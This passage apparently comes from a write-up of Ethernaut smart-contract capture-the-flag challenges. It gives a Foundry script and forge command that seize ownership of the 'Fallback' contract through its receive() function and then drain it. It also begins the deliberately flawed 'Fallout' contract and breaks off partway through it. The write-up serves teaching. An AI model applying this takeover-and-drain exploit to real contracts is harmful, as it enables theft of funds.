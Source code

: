 ```js
        owner = msg.sender;
    }
}
```

To solve, we contribute a small amount so our contribution is > 0. Then we send ether directly to the contract, triggering `receive()`, which sets us as the new owner. Finally, we call `withdraw()` to drain the contract.

### Script

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Fallback.sol";

contract FallbackSolution is Script {
    Fallback public fallbackInstance = Fallback(payable(<YOUR_INSTANCE>));

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        fallbackInstance.contribute{value: 1 wei}();
        (bool success, ) = address(fallbackInstance).call{value: 1 wei}("");
        require(success, "Fallback call failed");
        console.log("New Owner:", fallbackInstance.owner());
        console.log("My Address:", vm.envAddress("MY_ADDRESS"));
        fallbackInstance.withdraw();
        vm.stopBroadcast();
    }
}
```

### POC

```bash
forge script script/FallbackSolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```

---

## Fallout

### Challenge Code

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

```